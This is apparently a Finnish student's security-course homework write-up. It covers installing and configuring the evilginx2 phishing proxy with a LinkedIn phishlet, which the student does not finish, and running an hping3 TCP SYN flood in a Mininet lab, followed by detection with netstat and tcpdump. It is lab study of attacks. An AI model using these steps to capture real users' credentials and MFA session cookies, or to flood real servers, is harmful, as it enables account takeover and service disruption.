 # h5 

## a) Tutustu evilginx2

Evilginx2 on itsenäinen man-in-the-middle -hyökkäyskehys, jota käytetään sisäänkirjautumistietojen sekä istuntoevästeiden kalasteluun mikä mahdollistaa kaksivaiheisen todennuksen ohituksen.

Evilginx2 asennukseen löysin ohjeet: https://help.evilginx.com/community

Ohjeen mukaan tuli ensin asentaa 
- Golang version 1.18 or above.
- Node.js version 14.17.0 or above. You can use nvm for managing multiple Node versions on a single machine. Node.js is only required for running Evilpuppet.

Golang [asennus](https://go.dev/doc/install	):

    sudo rm -rf /usr/local/go 
    sudo tar -C /usr/local -xzf go1.24.2.linux-amd64.tar.gz
    export PATH=$PATH:/usr/local/go/bin
    go version

![1](https://github.com/user-attachments/assets/4f41cffa-48ca-49d4-8570-a72fc97c00e4)

Nodejs [asennus](https://nodejs.org/en/download/):

    # Download and install fnm:
    curl -o- https://fnm.vercel.app/install | bash
    # Download and install Node.js:
    fnm install 22
    # Verify the Node.js version:
    node -v # Should print "v22.15.0".
    # Verify npm version:
    npm -v # Should print "10.9.2".

![2](https://github.com/user-attachments/assets/714f629b-2d83-4914-9a6a-7f75c0bb6031)

![3](https://github.com/user-attachments/assets/235cf3cc-28ef-484d-a01f-c46c5d230abe)

Tämän jälkeen ohjeistus käski make komennolla kääntää (buildaa) ohjelma. Make ei toiminut, joten käynnistin koneen uudelleen jolloin make toimi. Alla olevassa kuvassa nähdään, että build-kansio muodostui.

![4](https://github.com/user-attachments/assets/b73d2100-e7fe-4a82-90db-b5f6e22b3079)

Deploymenttiin oli komento:

    sudo ./build/evilginx -p ./phishlets -t ./redirectors 127.0.0.1:33500 -developer
    
![5](https://github.com/user-attachments/assets/f642caae-6c4c-4142-9c49-a4fdd0e04231)

Tämän jälkeen ohjeistuksessa oli asettaa domain ja ipv4.

    config domain not-a-phish.com
    config ipv4 1.2.3.4

Sen jälkeen olisi vuorossa phishlets. Tähän oli annettu komento:

    phishlets hostname linkedin totally.legit.linkedin.not-a-phish.com

Tässä kohdassa jäin jumiin. Ilmeisesti tuota linkeid phishlets ei ole vielä olemassa, joten komentoa ei pystynyt ajamaan. 

![6](https://github.com/user-attachments/assets/859d4d95-d9cf-4eb6-b8c0-18aac6623b35)

Katselin tähän [miten sellaisen voisi tehdä](https://www.youtube.com/watch?v=sZ22YulJwao). En kuitenkaan siinä hetkessä tullut viisaammaksi.

Katsoin vielä myöhemmin, että esimerkiksi [täältä](https://github.com/An0nUD4Y/Evilginx2-Phishlets) löytyy pishlettejä. Hain sieltä linkedin.yaml ja laitoin sen kansioon evilginx2/phishlets/. Käynnistin evilginx2 uudelleen ja phislet tuli heti alussa näkyviin.

![15](https://github.com/user-attachments/assets/f283c7a5-a310-4e4e-ab93-ae301d5ebe5a)

Koitin tämän jälkeen jatkaa ohjeiden mukaan mutta en päässyt tästä eteenpäin.

![16](https://github.com/user-attachments/assets/0ff93290-4ee1-4bc2-8a56-fa263cb1b4f3)

Tarkoituksena olisi siis luoda sivusto, jolle uhri ohjataan. Mikäli olen ymmärtänyt oikein niin tässä uhri klikkaa linkkiä, Evilginx vastaanottaa pyynnön ja forwardoi sen aidolle linkedin.com-sivulle. Uhri näkee tämän aidon sivun ja syöttää tunnuksen ja salasanan sekä MFA-koodin ja istuntoevästeen.

## b) Sinulla on käytössäsi mininet ympäristö. Luo ympäristö, jossa voit tehdä TCP SYN-Flood hyökkäyksen.

Kysyin tehtävään apua ChatGPT:ltä:  "*Minulla on käytössäni mininet ympäristö. Kuinka luon ympäristön, jossa voin tehdä TCP SYN-Flood hyökkäyksen.*"

ChatGPT ehdotti luomaan ympäristön, jossa on yksi hyökkääjä (h1), yksi uhri (h2), ja kytkin (s1).

    sudo mn --topo single,2 --mac --switch ovsk --controller=remote

En kuitenkaan tämän avulla saanut koneita löytämään toisiaan. 

![10](https://github.com/user-attachments/assets/03da8873-51f5-4810-9530-ba14c18e6b5a)

Väänsin tämän kanssa hyvän tovin ja päätin käyttää tuntitehtävässä 01 ollutta skriptiä, joka loi neljä konetta:

     sudo python hub_topo.py

Näin sain koneet p pingaamaan toisiaan:

    pingall

![11](https://github.com/user-attachments/assets/c8b01382-10b4-42eb-aef9-b9be6dd7a9df)

Seuraavaksi käynnistettiin TCP-palvelin uhrikoneessa (h2) porttiin 80.

    h2 python3 -m http.server 80

![12](https://github.com/user-attachments/assets/d9d98ac2-d151-4990-8b7c-c578f48a4c69)

Tämän jälkeen suorita TCP SYN Flood -hyökkäys hyökkääjältä (h1). Tähän käytetään työkalua hping3, jonka asensin etukäteen:

    sudo apt install hping3

Hyökkäys käynnistetään:

    hping3 -S -p 80 --flood h2

- **-S**: lähettää TCP SYN -paketteja
- **-p 80**: kohdeportti
- **--flood**: lähettää niin nopeasti kuin mahdollista
- **h2**: kohdehost

![13](https://github.com/user-attachments/assets/2c2ec8e5-7d0f-4ee0-bc8e-45f9e3093cf3)

Hyökkäystä pystyy tämän jälkeen tarkkaila netstatilla:

    netstat -ant | grep :80

![14](https://github.com/user-attachments/assets/914d0d14-8593-4cff-9861-5730f738723c)

ChatGPT:n mukaan hyökkäys toimii, näet paljon "SYN_RECV" -tilaisia yhteyksiä.

En kuitenkaan nähnyt näitä kuin välillä. Halusinkin tietää miten muuten voin huomata, että tällainen on menossa. ChatGTP ehdotti komentoa:

    sudo tcpdump -i any port 80 and tcp[13] == 2

- **port 80**: näyttää vain TCP-paketit, jotka menevät porttiin 80.
- **tcp[13] == 2**: tarkistaa paketin, että se on SYN-paketti (koska SYN-paketin TCP headerin 13. bitti on asetettu arvoon 2). 

![8](https://github.com/user-attachments/assets/aec8e32b-b071-4986-b94f-b320c9ee5708)

Yllä hyökkäys ei ollut päällä eikä mitään liikennettä ollut. Alapuolella vastaavasti hyökkäys oli päällä ja rivejä tuli hurjaa vauhtia.

![7](https://github.com/user-attachments/assets/7f9d6cb5-1ae4-4242-a131-6314cb76de41)

## Lähteet:

An0nUD4Y. Evilginx2-Phishlets. GitHub. Saatavissa: https://github.com/An0nUD4Y/Evilginx2-Phishlets. Luettu: 5.5.2025.

Evilginx. Introduction. Saatavissa: https://help.evilginx.com/community. Luettu: 5.5.2025.

Go. Download and install. Saatavissa: https://go.dev/doc/install. Luettu: 5.5.2025.

Kgretzky. Evilginx2 – Advanced phishing with man-in-the-middle attack framework. GitHub. Saatavissa: https://github.com/kgretzky/evilginx2. Luettu 5.5.2025.

Nodejs. Download Node.js®. Saatavissa: https://nodejs.org/en/download/. Luettu: 5.5.2025.

OpenAI. 2025. ChatGPT (versio 4). Keskustelu tekoälyn kanssa, 5.5.2025. Saatavissa: https://chat.openai.com/. Luettu: 5.5.2025.

Youtube. 2023. I Stole a Microsoft 365 Account. Here's How. Saatavissa: https://www.youtube.com/watch?v=sZ22YulJwao. Katsottu: 5.5.2025.
